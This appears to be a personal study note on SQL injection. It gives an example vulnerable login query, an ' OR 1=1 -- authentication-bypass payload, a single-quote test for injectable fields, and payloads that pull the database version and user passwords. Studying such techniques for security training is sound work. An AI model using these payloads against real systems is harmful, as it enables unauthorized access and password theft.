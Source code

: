 ```yaml
---
title: SQL Injection
updated: 2025-04-22 11:14:14Z
created: 2025-04-21 02:06:05Z
latitude: 11.54487290
longitude: 104.89216680
altitude: 0.0000
---
```


## Common SQL string formats:
`"SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";`

* * *
**Authentication Bypass**
Force the closing quote on the value, adding and **OR 1=1** statement and terminating the SQL statement
`offsec' OR 1=1 -- //`
so ``"SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";`` becomes:

`SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --`

**How to test:**
1. On a Username/Password Login screen, try entering the following usernames:
**'**
**offssec'**

## ***If you get an error, you are interfacing with the SQL server!***

* * *
## Exploits
**Show SQL version:**
`' OR 1=1 IN (SELECT @@version) --//****`

**Extract users / passwords:**
`' OR 1=1 IN (SELECT * FROM users) -- //`
`' OR 1=1 IN (SELECT password FROM users) -- //`
`' OR 1=1 IN (SELECT password FROM users WHERE username = 'admin') -- //`  

